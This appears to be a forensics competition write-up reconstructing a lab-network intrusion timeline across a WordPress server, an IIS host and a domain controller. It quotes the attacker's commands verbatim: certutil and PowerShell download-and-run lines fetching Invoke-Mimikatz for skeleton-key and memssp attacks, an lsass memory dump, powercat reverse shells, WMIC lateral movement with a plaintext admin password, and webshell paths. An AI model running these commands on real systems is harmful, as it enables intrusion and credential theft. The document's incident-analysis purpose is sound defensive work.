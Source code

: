 # T5-fornesis

by asef18766(陳兆閔) and YingMuo(彭建霖)

## how attack
* ubuntu wordpress web server : ```CVE-2019-9978``` to get webshell and ```sqlmap``` to get wropress admin account

* windows IIS server : ```CVE-2020-0688``` (awaiting to determinate) attack and create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)

* windows dc server : in IIS server execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) and use Minikatz to get dc's admin 's account and password (/user:TEAMT5\Administrator /password:admin12345!!!) and connect by IIS server

## Horizon move
* ubuntu -> IIS : post bt.ext and nt.exe by tunnel

* IIS -> dc : create process ipconfig.exe via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```

## timeline

* 2020/8/3 AM 09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131``` (ubuntu web server)

* 2020/8/4 AM 08:42:33 ```CVE-2020-0688``` (awaiting to determinate) (windows IIS)

* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM``` (windows IIS)

* 2020/8/4 AM 08:49:26, start to ```sqlmap``` by ```10.20.2.227``` (ubuntu web server)

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) (windows IIS)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter (windows IIS)
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\``` (windows IIS)

* 2020/8/4 AM 09:16:31, tunnel (npv) start (ubuntu web server)

* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:42:07, use tunnel scan internet (ubuntu web server)

* 2020/8/4 AM 09:45:56, login wordpress with admin account by ```10.20.2.165``` (ubuntu web server)

* 2020/8/4 AM 10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell (ubuntu web server)

* 2020/8/4 PM 10:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean (ubuntu web server)

* 2020/8/4 PM 11:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell (ubuntu web server)

* 2020/8/4 PM 11:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell (ubuntu web server)

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` (windows IIS)

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165``` (windows IIS)

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx``` (windows IIS)


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco``` (windows IIS)

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"``` (windows IIS)

* 2020/8/5 PM 10:25:34, execute ipconfig.exe by ```TEAMT5\Administrator``` (windows DC)

* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key (windows IIS)

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe``` (windows IIS)

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz``` (windows IIS)

<iframe width="100%" height="400" src="https://time.graphics/embed?v=1&id=463591" frameborder="0" allowfullscreen></iframe>
<div><a  style="font-size: 12px; text-decoration: none;" title="Business graphics" href="https://time.graphics">Business graphics</a></div>
